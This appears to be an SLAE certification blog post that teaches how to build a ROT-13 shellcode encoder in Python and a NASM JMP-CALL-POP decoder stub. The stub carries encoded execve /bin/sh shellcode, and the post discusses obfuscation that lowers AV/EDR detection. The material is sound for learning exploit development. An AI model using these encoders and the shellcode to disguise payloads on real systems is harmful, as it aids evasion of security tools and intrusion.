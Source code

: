 # SLAE Exam Assignment 4 - Creating a custom shellcode encoder

## Prologue
The fourth assignment that we have for our SLAE Certification exam is creating a custom shellcode encoder using all that we have learnt so far from the course.

In this blog post I am going to discuss what is a shellcode encoder, walk you guys through the creation process and at last show you a demo of what we have created.

So without any further ado, here it goes!

## Shellcode Encoder Explained
So the big question is what's a shellcode encoder?

I'd define an encoder as a piece of code that takes your shellcode as input and encodes/obfuscates/morphs it in way such that all bad characters including null bytes, new lines etc are removed from the shellcode and also appends a small stub to the shellcode which aids in decoding/changing it back to the original shellcode for execution on the target system.

This has another obvious benefit apart from removing bad characters as many of you might know from practical experience.

It obfuscates the shellcode which may hide it's true intentions from some AV/EDR solutions therefore lowering the detection rate on some site like VirusTotal but make no mistake, **AV evasion is not the primary objective of using a shellcode encoder** and it provides no real security to your payload because there's **no encryption happening** which means the encoding/obfuscation is usually trivial to reverse.

Ergo, always use encryption for implant security, AV/EDR evasion and Encoders for a preliminary obfuscation and removing bad characters. Ideally, you would want to use both first encoding and then encrypting the payload. Refer to [Blog Post 7](https://slaeryan.github.io/posts/slae-assignment7-blogpost.html) for a primer on creating your own shellcode crypter.

So with that being explained many of you might have used the famous(or rather infamous!)Shikata Ga Nai Encoder from Metasploit package to obfuscate or bypass some AVs till it got burnt out and now all payloads keep getting attributed :(

Worry not! Here's how you can create your own shellcode encoder from scratch.

## Encoding algorithm
For the purposes of this blog post I have chosen a variation _ROT-13_ of one of the earliest ciphers - _Caesar cipher_.

In other words, ROT-13 is a Caesar cipher with n=13 or every character in the original message is substituited by 13 places which means we are simply going to add 13(0x0d) to every byte in the original shellcode to obfuscate it and then subtract the same from the encoded shellcode to reverse the effect before execution.

The reasons for choosing so are simple:
1. It will be easy to implement and easy for all the readers to comprehend.
1. We don't need to bypass AVs using an encoder so we don't exactly need a very complicated chained multiple encoding schema.
1. Furthermore, I admit to being lazy :0

Plus, we can always build upon this as and when required which shouldn't be a very difficult task if we get our fundamentals clear. 

## Creating an Encoder prototype
Our first objective shall be to encode an original shellcode string using our chosen algorithm utilizing a wrapper script which will spit out the encoded shellcode string.

Here's a python script of the prototype encoder:

```python
# Name: encoder_proto.py
# Author: Upayan a.k.a slaeryan
# SLAE: 1525
# Contact: upayansaha@icloud.com
# Purpose: The script takes a shellcode hex string as input from user and
# converts it into a ROT-13 encoded shellcode byte string and prints 
# it to stdout in a format suitable for the decoder NASM stub.
# Testing: 31c050682f2f7368682f62696e89e35089e25389e1b00bcd80 (execve /bin/sh)
# Run with:
# python3 encoder_proto.py
# Note: The original shellcode cannot contain null-bytes(0x00)


def main():
	shellcode_hex = input("Enter the shellcode hex string: ")
	counter = 1
	byte = ''
	encoded_shellcode = ''
	for i in shellcode_hex:
		if (counter % 2 == 0):
			byte = byte + i
			byte = int(byte, 16)
			byte = hex(byte+13)
			if(len(byte)==3):
				byte = byte[:2] + '0' + byte[2:]
			byte = byte + ","
			encoded_shellcode = encoded_shellcode + byte
			byte = ''
		else:
			byte = byte + i
		counter += 1
	encoded_shellcode = encoded_shellcode + "0x0d"
	print("\n")
	print("The ROT-13 encoded shellcode byte string is:", encoded_shellcode)


main()
```

This script just takes a shellcode as input from user and encodes it by adding 13(0x0d to each byte and then prints it. Keep in mind, this is just the prototype encoder and it doesn't incorporate a stub for decoding yet. Also, I am not a coder so please forgive the errors which might have gone unnoticed by my eyes and the messy code in general.

So let's make the stub now.

## Creating a decoder NASM stub
First, let's talk about what's a stub. A stub is basically a piece of code which is usually appended to the encoded shellcode to aid in decoding and execution of the encoded shellcode. 

In other words, we want to create a Linux/x86 assembly code into which our encoded shellcode from previous step is embedded and it will execute the shellcode after decoding it successfully.

Here's the NASM source:

```nasm
; Filename: rot13_decoder_stub_shellcode.nasm
; Author: Upayan a.k.a. slaeryan
; SLAE: 1525
; Contact: upayansaha@icloud.com
; Purpose: This is a x86 Linux stub for decoding and executing a ROT-13 encoded 
; shellcode.
; Usage: ./rot13_decoder_stub_shellcode
; Compile with:
; ./compile.sh rot13_decoder_stub_shellcode
; Size of shellcode: 16 bytes(Stub)


global _start

section .text
_start:

    jmp short call_decoder     ; Using the JMP-CALL-POP technique - JMP section

    initiate_decoder:          ; Start the decoding of the shellcode - POP section
    pop esi                    ; Pop the shellcode which is in TOS into ESI register

    decoder_loop:              ; Actual decoding happens here in a loop
    sub byte [esi], 13         ; Get original shellcode by subtracting 13
    jz Shellcode               ; Break condition hits when we get 0 and transfer execution flow to decoded shellcode 
    inc esi                    ; Increment ESI to decode each and every byte
    jmp short decoder_loop     ; Run decoder_loop on every byte till we get 0 on subtracting indicating end of shellcode

    call_decoder:              ; CALL section
    call initiate_decoder      ; Goto initiate_decoder function to put the shellcode onto the stack
    ; The encoded shellcode for execve /bin/sh is defined below, change if required.
    Shellcode: db 0x3e,0xcd,0x5d,0x75,0x3c,0x3c,0x80,0x75,0x75,0x3c,0x6f,0x76,0x7b,0x96,0xf0,0x5d,0x96,0xef,0x60,0x96,0xee,0xbd,0x18,0xda,0x8d,0x0d
```

We are using the JMP-CALL-POP technique here to subtract every byte by 13(0x0d) which will get our original shellcode back and then we transfer our execution flow to the original shellcode. The code is commented on every line to help us understand what's going on in each step and honestly there's not much to explain here.